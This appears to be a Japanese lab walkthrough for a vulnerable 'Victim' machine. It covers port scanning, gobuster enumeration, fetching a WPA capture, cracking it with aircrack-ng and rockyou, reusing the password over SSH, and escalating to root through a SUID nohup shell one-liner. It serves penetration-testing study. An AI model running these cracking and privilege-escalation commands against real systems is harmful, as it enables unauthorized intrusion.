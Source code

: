 ## Victim
### 事前準備
  - rockyou.txt.gzファイルを解凍する
  - gunzip /usr/share/wordlists/rockyou.txt.gz 
### ポートスキャンまでは同じ
- `fping`を受け付けないこともあるので、`arp-scan`を使う
- ポート22, 80, 8080, 8999, 9000が開いている

### ブラウザで80,8080,8999の各サイトを見てみる
- html,robots.txt

### gobusterで80, 8080を見る   
- `gobuster dir -u 192.168.56.106 -w /usr/share/wordlists/dirb/common.txt -x php,html,txt -t 50`
  - `-x`のオプションがあると拡張子を指定できる。ただし時間がかかる 
  - `-u` オプションは、リンクの次から順に検索していく
  - `-t`はスレッドの数を指定できる。デフォルトは10で、50だと３割くらい早くなる
- 8080ポートでもやってみる、この場合はhttp://$IP:8080。するとpasswordsテキストがある。中身を見てみると、、

### pcapファイルを取得
  - pcapファイルを取得する方法は２つある
  1. 8999ポートのブラウザにアクセスする、こういう表示をディレクトリリスティングと呼ぶ。本来はディレクトリなんだが、見やすいようにブラウザが見やすいようにしている
  2. WPA-01.capファイルをダウンロードする。
  3. `wget http://192.168.56.106:8999/WPA-01.cap`

### wiresharkを起動して中身をチェックする
- `wireshark  WPA-01.cap`とターミナルで入力
- 全体を見るために、Statics -> Protocol Hierarchyを見る、wireless LANとあることからwifiのパケットであることがわかる
- SSIDは無線LANの識別IDで要はユーザ名のことで、ここではdlinkというユーザがいることがわかる
- 暗号化がwpa1で弱いことがわかる

### wiresharkを起動して中身をチェックしてユーザ名を見つける
- 虫メガネアイコンをクリックするとバーが下に出てくる
- Case sensitiveのとこにリストがあるのでDisplay fileterをStringにする
- 右側のとこにSSIDと入力する。SSIDはユーザ名のこと
- ユーザ名のところが青くなる。ユーザ名はdlink

### 暗号解読
- 次の2つは辞書が異なるだけで、どちらでもできる
- 本に書いてるの
  - `aircrack-ng WPA-01.cap -w /usr/share/wordlists/rockyou.txt`
  - パスワードがわかる
- ParrotOSにはwifi専用のパスワード辞書があるので、それでやってみる
  - `aircrack-ng WPA-01.cap -w /usr/share/wordlists/wifite.txt` 
### sshで接続する
- ユーザとwifiのパスワードをsshでも使い回していると仮定してssh接続をする
- `ssh dlink@$IP`
- OSを特定する
- 個人で使える管理者権限を調べる

### SUIDファイルを特定する
- `find / -perm -4000 -ls 2> /dev/null`
  - `-ls`はロングフォーマットで表示する
- どっちでもいい
- `find / -perm -u=s -type f 2> /dev/null` 

### nohupコマンドでルートシェルを奪う
- `nohup /bin/sh -p -c "sh -p < $(tty) > $(tty) 2> $(tty)"`
  - GTFOBinsのSUIDのところにも書いてある
  - nohupコマンドはターミナルを閉じてもコマンドは継続して実行したいときに使うコマンド
  - -pは実ユーザと実際のユーザが異なる時につけるオプション。これがないと、ルートにはなれない
  - $(tty)はドルパーレンと呼ぶ、単に先にコマンドを実行しているだけ
  - `< $(tty)`標準入力
  - `> $(tty)`標準出力
  - `2> $(tty)`エラー出力
### rootを取得
  - `cd /root`
  - `ls`
  - `cat flag.txt`
